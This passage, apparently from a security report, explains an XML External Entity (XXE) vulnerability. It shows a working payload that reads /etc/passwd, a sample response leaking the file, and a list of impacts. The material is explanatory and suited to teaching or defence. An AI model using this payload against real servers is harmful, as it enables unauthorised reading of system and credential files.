 **Malicious XML Payload:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<profile>
  <name>Attacker</name>
  <email>attacker@example.com</email>
  <data>&xxe;</data>
</profile>
```

**Explanation:**

- The `DOCTYPE` declaration defines a new entity `xxe` that points to the `/etc/passwd` file.
- When the XML parser processes this payload with `resolve_entities=True`, it replaces `&xxe;` with the contents of `/etc/passwd`.
- The server then includes this sensitive data in the `result` section of the response, inadvertently exposing it to the attacker.

**Potential Response Returned to Attacker:**

```html
<profile>
  <name>Attacker</name>
  <email>attacker@example.com</email>
  <data>root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  ... (additional lines from /etc/passwd) ...
  </data>
</profile>
```

This response reveals the contents of the `/etc/passwd` file, including usernames and other potentially sensitive information.

---

## **3. Potential Risks and Impact**

Exploiting XXE vulnerabilities can lead to severe security breaches, including but not limited to:

- **Sensitive Data Exposure**: Access to configuration files, environment variables, or other sensitive data.
- **Server-Side Request Forgery (SSRF)**: Making unauthorized requests from the server to internal services.
- **Denial of Service (DoS)**: Causing resource exhaustion by processing excessively large or recursive entities.
- **Remote Code Execution (RCE)**: In certain configurations, executing arbitrary code on the server.

The impact of such vulnerabilities can range from data breaches and reputational damage to complete system compromise.

---